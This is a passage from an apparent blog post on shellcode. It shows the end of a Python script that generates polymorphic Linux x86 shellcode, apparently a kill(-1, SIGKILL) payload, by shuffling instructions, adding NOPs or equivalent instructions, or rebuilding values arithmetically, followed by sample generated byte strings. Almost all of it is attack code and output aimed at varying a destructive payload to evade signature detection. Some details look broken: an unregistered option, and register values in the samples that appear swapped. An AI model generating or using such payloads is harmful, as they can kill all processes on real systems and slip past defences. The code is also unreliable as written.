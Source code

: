 
    code = mov_ax+mov_dl+div_dl;

    if mov_to_cl == True:
        code += "\\x89\\xc1";       # mov ecx, eax

    return code;


def create_add_shellcode():
    r1=randint(1, 36);
    r2=randint(1, 8);

    sc="\\x31\\xc0\\x31\\xdb\\x31\\xc9\\xb1\\x"+'{:02x}'.format(r1)+"\\x80\\xc1\\x"+'{:02x}'.format(37-r1)+"\\xb0\\x"+'{:02x}'.format(r2)+"\\x04\\x"+'{:02x}'.format(9-r2)+"\\x4b\\xcd\\x80";
    return sc;

def main(argv):
    shellcode="";

    try:
        opts, args=getopt.getopt(argv, "hsnNm", ["help", "shuffle", "nop", "nop-equivalent", "math"])
    except getopt.GetoptError:
        help()
        sys.exit(1)
    
    for opt, arg in opts:
        if opt in ('-h', '--help'):
            help()
            sys.exit(0)
        elif opt in ('-A', '--add'):
            shellcode=create_add_shellcode()
        elif opt in ('-s', '--shuffle'):
            shellcode=kill_shuffle()
        elif opt in ('-n', '--nop'):
            shellcode=kill_nop_dope()
        elif opt in ('-N', '--nop-equivalent'):
            shellcode=kill_nop_super_dope()
        elif opt in ('-m', '--math'):
            shellcode="\\x31\\xc0\\x31\\xdb\\x31\\xc9"+kill_div_for_mov(9, True)+kill_div_for_mov(37, False)+"\\x4b\\xcd\\x80";

    print "Shellcode: ", shellcode
    print "Length: ", len(shellcode)/4

if __name__ == "__main__":
    main(sys.argv[1:])


{%endhighlight%}

### Some shellcodes

Here it is some shellcodes created using the aforementioned script.

{%highlight sh%}
% ./kill_it_me_softly.py -s
Shellcode:  \x31\xdb\x31\xc9\x31\xc0\xb0\x09\xb1\x25\x4b\xcd\x80
Length:  13
% ./kill_it_me_softly.py -s
Shellcode:  \x31\xdb\x31\xc0\x31\xc9\xb1\x25\xb0\x09\x4b\xcd\x80
Length:  13
% ./kill_it_me_softly.py -n
Shellcode:  \x31\xc9\x31\xc0\x31\xdb\xb0\x09\x4b\x90\xb1\x25\xcd\x80
Length:  14
{%endhighlight%}
% ./kill_it_me_softly.py -n
Shellcode:  \x31\xc9\x31\xc0\x31\xdb\xb0\x09\xb1\x25\x4b\xcd\x80
Length:  13
% ./kill_it_me_softly.py -N